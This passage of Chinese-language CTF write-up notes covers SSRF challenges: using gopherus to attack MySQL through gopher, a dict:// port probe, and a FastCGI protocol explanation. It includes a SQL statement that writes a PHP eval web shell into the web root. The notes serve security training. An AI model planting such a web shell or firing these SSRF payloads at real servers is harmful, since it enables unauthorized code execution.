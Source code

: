 ```php

?>
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677593997116-4d430019-2d77-44c6-a265-a3899eb2f60a.png#averageHue=%23fefdfd&clientId=u6ddaf6b9-41a7-4&from=paste&height=356&id=u97a6ee8e&originHeight=712&originWidth=1681&originalType=binary&ratio=2&rotation=0&showTitle=false&size=95618&status=done&style=none&taskId=ua8339854-3b88-49d1-8d82-1bf5f195aab&title=&width=840.5)

## web 308(ssrf+mysql)

:::info
dict://127.0.0.1:6379 测试开了哪个端口
:::
:::info

- 看到`curl_exec`就想到gopher打mysql
  :::
  ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677641739696-0d84311f-1a0c-4b5a-aa04-e25e9960de0f.png#averageHue=%23232221&clientId=u96069ca6-5288-4&from=paste&height=293&id=u7a79c846&originHeight=585&originWidth=1076&originalType=binary&ratio=2&rotation=0&showTitle=false&size=112653&status=done&style=none&taskId=u3bbcfb08-7d70-4327-81c6-fee268deae9&title=&width=538)

- 这里可以`ssrf`
- 利用`gopherus`生成payload打mysql

```shell
python2 gopherus.py --exloit -mysql
```

- mysql 一句话木马

```sql
select '<?php eval($_POST[1]);)?>' into outfile '/var/www/html/a.php'
```

- 传入cookie即可

## web 309(ssrf + fastcgi)

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写 | 离别歌](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html#php-fpmfastcgi)

### fastcgi

:::info

- 总结来说是在服务器中间件和后端之间进行传输的协议
  :::
  ![1677656241910.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677656268747-f83060c0-5bb9-426e-bb1e-de701cc2d02c.png#averageHue=%23fcf5f1&clientId=ubb56417b-0d74-4&from=paste&height=359&id=u1b4ccbbf&originHeight=717&originWidth=1488&originalType=binary&ratio=2&rotation=0&showTitle=false&size=118505&status=done&style=none&taskId=u9fd1c49f-65a7-4aef-a449-4745b53b4a0&title=&width=744)

- Fastcgi其实是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道。
- HTTP协议是浏览器和服务器中间件进行数据交换的协议，浏览器将HTTP头和HTTP体用某个规则组装成数据包，以TCP的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以HTTP协议的规则打包返回给服务器。
- 类比HTTP协议来说，fastcgi协议则是服务器中间件和某个语言后端进行数据交换的协议。Fastcgi协议由多个record组成，record也有header和body一说，服务器中间件将这二者按照fastcgi的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件

### PHP-FPM（FastCGI进程管理器）
